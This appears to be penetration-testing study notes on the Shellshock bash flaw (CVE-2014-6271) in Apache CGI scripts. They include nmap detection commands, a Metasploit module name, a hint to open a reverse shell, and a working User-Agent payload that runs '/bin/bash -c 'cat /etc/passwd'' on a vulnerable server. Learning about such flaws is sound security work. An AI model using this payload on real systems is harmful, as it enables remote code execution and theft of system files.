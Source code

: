 ```yaml
---
up: "[[Exploiting Linux Vulnerabilities]]"
tools:
  - "[[Burp Suite]]"
---
```


# Exploiting Shellshock Bash Vulnerability

- Shellshock: CVE-2014-6271
- Name given to a family of vulns in the bash shell (since v1.3) that allow remote code execution
- Bash is a \*Nix shell that is part of the GNU project and default shell for most Linux distribution

- The vuln occurs because bash mistakely executes trailing commands after a series of characters `() { :; };`
- Only affects Linux as Windows is not using Bash
- Apache web servers are vulnerables as they are configured to execute CGI or .sh scripts
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system

## Shellshock Exploitation

- To exploit this vuln you need to locate an input vector or script that allows you to communicate with Bash
- Can be manually done or with MSF

# Demonstration

```bash
nmap -sV $TRG
nmap -sV $TRG --script http-shellshock --script-args "http-shellshock.url=/gettime.cgi"
```

Using Burp Suite, repeat the /gettime.cgi get request:

```bash
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

Or open a reverse shell after starting a netcat listener.

## Using MSF

```bash
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
```
